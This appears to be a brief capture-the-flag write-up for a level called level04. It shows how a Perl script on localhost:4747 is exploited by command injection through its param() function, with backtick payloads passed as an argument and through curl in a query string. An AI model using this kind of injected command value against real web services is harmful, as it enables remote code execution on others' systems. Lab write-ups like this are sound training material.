 # cat level04.pl

it's a Perl script doing something on localhost:4747


# little bit of ressearch

found out the param() function can expose some vulnerabilities in Perl
analyzing the script we can deduce that we can inject some code in the param() function :
``./level04.pl x='`getflag`'``
this doesn't do much as we are executing the script as level04


# checking for open ports

netstat -tulpn tells us we are listening on port 4747 so maybe we can inject some code through here


# curl

curl localhost:4747?x=\`getflag\` 
